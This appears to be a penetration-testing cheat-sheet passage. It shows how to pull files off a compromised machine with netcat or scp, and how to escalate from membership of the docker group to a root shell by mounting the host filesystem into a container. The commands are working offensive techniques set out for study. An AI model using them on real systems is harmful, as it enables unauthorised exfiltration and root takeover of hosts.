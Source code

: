 ## Download Interesting Files

```bash
# In local machine
nc -lp 4444 > example.txt

# In remote machine
nc <local-ip> 4444 < example.txt
```

Also we can use “scp” under the condition that the local machine opens SSH server.

```bash
# In local machine
sudo systemctl start ssh

# In remote machine
scp ./example.txt <username>@<local-ip>:/home/<username>/example.txt
```

<br />

## Run Existing Docker Image

### 1. Check if current user belongs to "docker" group

```sh
groups
```

### 2. List Docker Images

```sh
docker images
```

### 3. Start Container and Get Shell

If we found Docker images running, we can use it to get a root shell
Replace **“example”** with the docker image you found.

```sh
# -v: Mount the host directory ('/') to the '/mnt' directory in the container.
# --rm: Automatically remove the container when it exits.
# -it: Interective and TTY
# chroot /mnt sh: Change the root directory of the current process to the '/mnt' directory, then execute 'sh' command to get a shell as root.
docker run -v /:/mnt --rm -it example chroot /mnt sh
```

Alternatively we can use following commands.

```sh
# --entrypoint=/bin/bash: Override the default entrypoint to '/bin/bash', which means that when the container starts, it will launch a bash shell.
docker run -it --entrypoint=/bin/bash -v /:/mnt/ <image>:<tag>
# e.g.
docker run -it --entrypoint=/bin/bash -v /:/mnt/ example:master
```

